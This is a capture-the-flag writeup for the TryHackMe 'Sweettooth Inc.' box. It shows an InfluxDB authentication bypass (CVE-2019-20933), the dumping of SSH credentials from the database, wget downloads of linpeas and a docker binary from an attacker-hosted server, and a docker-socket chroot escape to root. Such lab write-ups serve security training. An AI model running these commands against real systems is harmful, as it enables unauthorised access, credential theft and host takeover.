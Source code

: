 ```yaml
---
layout: post
title:  "Sweettooth Inc. Writeup"
date:   2024-05-23 13:15:45 -0400
categories: writeup tryhackme
tags: writeup tryhackme medium
---
```

## Introduction
This is a medium challenge box on 
[TryHackMe](https://tryhackme.com/r/room/sweettoothinc){:target="_blank"}{:rel="noopener noreferrer"}
> This is what a hint will look like!

## Enumeration

### Ports
As always let's run a few scans to see what ports are 
open and what services are running

#### Rustscan
[Rustscan](https://github.com/RustScan/RustScan){:target="_blank"}{:rel="noopener noreferrer"}
is a helpful port scanner that runs faster than a full
nmap scan

```bash
rustscan -a VICTIM_IP
```

![rust-scan](/images/sweettooth-inc/rustscan.png)

#### Nmap
We have 4 ports open so let's run some scripts against
them

```bash
nmap -A -p111,2222,8086,58425 -T4 -vv -oA ports VICTIM_IP
```

![nmap-scan](/images/sweettooth-inc/nmap.png)

There are 2 ports to take note of

- 2222: SSH
- 8086: HTTP

## Initial Foothold
> Search the internet for exploits with the running 
services and versions

According to our scan, port 8086 is running InfluxDB
version 1.3.0. Let's search the internet for some exploits

### Authentication Bypass
One of the first results is 
[CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933){:target="_blank"}{:rel="noopener noreferrer"}
which is an authentication bypass vulnerability in 
InfluxDB < 1.7.6. Version 1.3.0 fulfills that 
requirement so let's try this out!

```bash
git clone https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933
cd InfluxDB-Exploit-CVE-2019-20933
pip3 install -r requirements.txt
python3 __main__.py
```

![influx-roadblock](/images/sweettooth-inc/influx-roadblock.png)

Oh no, we don't know the username! We could brute 
force usernames in the background but that won't be 
necessary. There is another way

### Username
> You don't need to brute force. Keep searching the 
> internet for exploits with the specific version

Continuing our public exploit search, we find an interesting 
[blog post](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day){:target="_blank"}{:rel="noopener noreferrer"}.
By visiting `<IP>:8086/debug/requests`  a username on the system is leaked!

![username-leak](/images/sweettooth-inc/username-leak.png)

### Database
> Did you leak everything from the database?

We have a username to bypass authentication with, so 
let's leak some data. Connect to the database with the 
previous authentication bypass exploit

```bash
python3 __main__.py
```
On the database screen type the name you want to use. 
Remember you can use `.back`  to change databases. Table 
and column names can be listed with the command

```sql
show field keys
```

Getting all data entries for a table is in the format

```sql
select * from table_name
```

We're asked two questions to leak database information. 
First we need to convert the given UTC Unix Timestamp to 
something more... readable. I used 
[this converter](https://epochtimestamp.com/){:target="_blank"}{:rel="noopener noreferrer"}
and sifted through the entries. We're looking for a 
temperature similar to the time 
`2021-05-18T10:00:00-04:00`

```sql
tanks
show field keys
select temperature from water_tank
```

![water-temp](/images/sweettooth-inc/water-temp.png)

Next we need to find the highest rpm for the mixer. 
Switch databases and sift through the entries again

```sql
.back
mixer
show field keys
select field_rpm from mixer_stats
```

![motor-rpm](/images/sweettooth-inc/motor-rpm.png)

The same process can be done to leak ssh credentials

```sql
.back
creds
show field keys
select * from ssh
```

![db-ssh](/images/sweettooth-inc/database-ssh2.png)

Let's use these ssh credentials. 
Remember from our scan that ssh is on port 2222!

```bash
ssh user@VICTIM_IP -p 2222
```

## Privilege Escalation
> linpeas will nudge you in the right direction

### linpeas
Upload the privesc script
[linpeas.sh](https://github.com/peass-ng/PEASS-ng){:target="_blank"}{:rel="noopener noreferrer"}
so we can find an avenue to escalate our privileges

```bash
# Attacker machine, in a directory with linpeas.sh
python3 -m http.server 80

# Victim machine
wget http://YOUR_IP/linpeas.sh
sh linpeas.sh
```

![docker-linpeas](/images/sweettooth-inc/docker-linpeas.png)

> User essentially has docker privileges without 
> the docker binary

`/run/docker.sock` is writable, meaning we have docker 
privileges! We can escape and elevate our privileges 
but there's one problem...

![docker-mising](/images/sweettooth-inc/docker-missing.png)

The docker binary is missing!

Normally we can install packages on Debian based systems 
with the command

```bash
sudo apt-get install <package-name> 
```

But if we could use sudo, we wouldn't have this issue in 
the first place

> If we had the docker binary available, 
> we could escalate our privileges...

Thankfully we can download the
[docker binary directly](https://download.docker.com/linux/static/stable/x86_64/){:target="_blank"}{:rel="noopener noreferrer"}!
Let's upload docker and try it out

### Docker Upload
```bash
# Attacker machine, in a directory with the docker file
python3 -m http.server 80

# Victim machine
wget http://YOUR_IP/docker-17.03.0-ce.tgz
tar xf docker-17.03.0-ce.tgz
cd docker
./docker images
```
![docker-test](/images/sweettooth-inc/docker-test.png)

Everything works, so let's elevate our privileges

## Root
> Is there a GTFO bin for docker?
[GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell){:target="_blank"}{:rel="noopener noreferrer"}
has an entry for creating a shell with docker

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Let's just replace alpine with a docker image we have 
access to and run the local docker binary

```bash
./docker run -v /:/mnt --rm -it influxdb:1.3.0 chroot /mnt sh
```

Root shell! Funnily enough we're already root on the host 
instead of the container. We've achieved our goal so 
let's get the remaining flags

```bash
find / -type f -name "*root.txt*" -ls 2>/dev/null
```

```bash
280243  4 -rw-r--r-- 1 root root  22 May 15  2021 /root/root.txt
  1700  4 -rw-r--r-- 1 root root  22 May 18  2021 /var/lib/docker/aufs/mnt/33d446f7c7981fe737a399371821828a94aedd9af216ca12a0845a4818a48c6c/root/root.txt
927203  4 -rw-r--r-- 1 root root  22 May 18  2021 /var/lib/docker/aufs/diff/20629420626c70a9bdf5807427da0badebc8e5d842cb82ae3ff83822b18c9e2a/root/root.txt
```

## Recap
A vulnerable version of InfluxDB leads to leaking a 
username as well as an authentication bypass. Database 
access leaks ssh credentials and provides a foothold into 
a docker container. We essentially have docker privileges 
since docker.sock is writable, but the docker binary is 
not available. Uploading the binary and using the docker 
gtfobin gives root.
